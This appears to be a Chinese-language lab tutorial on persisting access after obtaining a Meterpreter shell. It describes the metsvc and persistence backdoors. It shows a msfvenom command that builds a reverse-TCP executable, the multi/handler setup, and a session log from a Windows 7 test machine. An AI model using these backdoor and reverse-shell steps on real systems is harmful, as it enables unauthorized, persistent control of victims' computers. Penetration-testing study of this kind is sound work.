 在获取到 Meterpreter shell 后进行服务器控制持久化，自带的留后门方式有两种。

# metsvc

原理
1、metsvc：通过服务启动，是 Meterpreter 下的一个脚本；

运行 run metsvc 将会在目标主机上以 Meterpreter 的服务的形式注册在服务列表中，并开机自动自动；

运行 run metsvc -r 卸载目标主机上的 Meterpreter 服务；

原理：设置的后门在目标机启动后会自动开启一个服务，等待连接；这个有点正向代理的意思，自己开个端口等待接入控制；

优点：命令简单，不必设置太多参数，即不需要设置反弹到的主机 IP、端口等，直接 run metsvc -A；

缺点：如何其他人知道服务器的 ip，都可以利用这个后门开启的服务来控制服务器【扫描器发现】；

2、persistence：通过启动项启动，也是 Meterpreter 下的一个脚本；

移除后门：删除注册表中的值和上传的 VBScript 文件，具体位置执行脚本后有提示。

原理：有点反向代理的意思；

优点：由于是主动献殷勤，目标机器上的防火墙对于此等操作一般均会放行，后门的存活率较高；

情况？
Mac【Metasploit】：192.168.43.100

Win7【目标机】：192.168.43.103【桥接】，开启 3389 端口方便检测验证

实际场景：拿到目标机权限后，希望能够进行长期控制，即目标开机后仍可上线，或者说本地开启监听后目标仍可上线；

生成反弹 shell 木马；

[go0s]: ~

➜ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
直接在目标机运行上线，拿到目标机的 Meterpreter shell；

msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.43.100
lhost => 192.168.43.100
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.43.100:4444
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49283) at 2018-01-12 14:49:13 +0800
metsvc
利用失败，提示 deprecated 不推荐使用；
